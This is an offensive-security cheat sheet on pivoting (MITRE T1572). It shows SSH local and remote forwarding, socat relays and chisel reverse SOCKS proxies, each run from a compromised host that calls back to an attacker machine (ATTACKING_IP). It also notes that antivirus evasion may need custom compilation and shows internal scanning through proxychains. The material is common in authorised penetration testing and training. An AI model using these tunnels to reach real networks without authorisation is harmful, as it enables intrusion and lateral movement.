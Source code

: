 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - Technique T1572
---
```


# Port Forwarding

## Theory

Port Forwarding, consist of using any compromised host as a jump box to pivot to other hosts. We configure the host to listen on one port and relay all packets received on that port to another destination.

## Practice

### SSH tunneling

SSH port forwarding is a mechanism in SSH for tunneling application ports from the client machine to the server machine, or vice versa.\
Since we'll be making a connection back to our attacker's machine, we'll want to create a user in it without access to any console for tunnelling and set a password to use for creating the tunnels:

```bash
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```

{% tabs %}
{% tab title="SSH Local-Forwarding" %}
**Local port forwarding** is used to **forward a port from the client machine to the server machine**. Basically, the SSH client listens for connections on a configured port, and when it receives a connection, it tunnels the connection to an SSH server. The server connects to a configured destination port, possibly on a different machine than the SSH server.

This example opens a connection to the jump-server.net, and forwards any connection to port 80 on the local machine (attacking machine) to port 80 of intra.example.com.

```bash
veresk@kali$ ssh -L *:80:intra.example.com:80 user@jump-server.net -fN
```
{% endtab %}

{% tab title="SSH Remote-Forwarding" %}
**Remote port forwarding** allows a client machine of an SSH connection to redirect one of its ports to a port on the server, or to redirect a port of a network machine from the SSH server to a port local to the server.

On a compromised computer (jump-server), we can connect back to the attacking machine with a reverse port forward using the following command, this example produce the same result as previously seen with Local-Forwarding. Any connection on `ATTACKING_IP:8000` will be redirected on `intra.example.com:80`

```bash
PC> ssh -R 8000:intra.example.com:80 tunneluser@ATTACKING_IP -fN
```

In newer versions of the SSH client, it is also possible to create a **reverse proxy** (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it:

```bash
PC> ssh -R 9090 tunneluser@ATTACKING_IP -fN
```
{% endtab %}
{% endtabs %}

### SOCAT

We can use static binaries of socat to pivot, they are easy to find for both Linux and Windows.

{% hint style="danger" %}
Windows version is unlikely to bypass Antivirus software by default, so custom compilation may be required.
{% endhint %}

{% tabs %}
{% tab title="Forward" %}
Setting up a port forward with SOCAT involves opening a listening port on the compromised server and redirecting incoming traffic to the target server:

```bash
PC> ./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```
{% endtab %}

{% tab title="Reverse" %}
**Reverse port forwarding** allow us to redirect any local traffic from a port of our attacking server to a port on a remote machine via the compromised machine (jump box). &#x20;

First of all, on our attacking machine, we issue the following command:

```bash
v4resk@kali$ ./socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

Next, on the compromised machine (jump box) we execute this command. This example will forward any traffic from `localhost:8000`, on our attacking machine, to `172.16.0.10:80` trought the compromised jump box.

```bash
PC> ./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &

#Example
PC> ./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```
{% endtab %}
{% endtabs %}

### CHISEL

[Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided).

{% tabs %}
{% tab title="Reverse Proxy" %}
Setting up a reverse proxy involves connecting from the compromised server to a listener on the attacking machine. Then we will be able to access any network resources accesible for the compromised host, directly from our attacking host.

On the attacking host:

```bash
v4resk@kali$ ./chisel server -p LISTEN_PORT --reverse &
```

On the compromised host, we use the following command:

```bash
www-data@pwned.lab$ ./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

Once configured, you can use `proxychains` to run applications with proxied network connections.

```bash
proxychains nmap -sS <IP_ACCESSIBLE_FROM_JUMP_BOX>
```

{% hint style="info" %}
A little reminder on how to config ProxyChains with Chisel. We just have to add the following line to `/etc/proxychains.conf`:

```bash
socks5 127.0.0.1 1080
```
{% endhint %}
{% endtab %}

{% tab title="Forward Proxy" %}
Setting up a forward proxy with Chisel is straightforward:

```bash
v4resk@kali$ ./chisel client TARGET_IP:LISTEN_PORT LOCAL_PROXY_PORT:socks
```

On the compromised host, we would use the following command:

```bash
www-data@pwned.lab$ ./chisel server -p LISTEN_PORT --socks5
```
{% endtab %}

{% tab title="Reverse Forward" %}
To do a reverse port forwarding with chisel, we can do as follow:

```bash
v4resk@kali$ ./chisel server -p LISTEN_PORT --reverse &
```

On the compromised host, we would use the following command to. It will forward every requests sent to 8889 on the attacking host to the compromised host on localhost:6666

```bash
www-data@pwned.lab$ ./chisel client ATTACKING_IP:LISTEN_PORT R:8889:localhost:6666
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1572/" %}

{% embed url="https://podalirius.net/en/articles/ssh-port-forwarding/" %}

{% embed url="https://tryhackme.com/room/wreath" %}
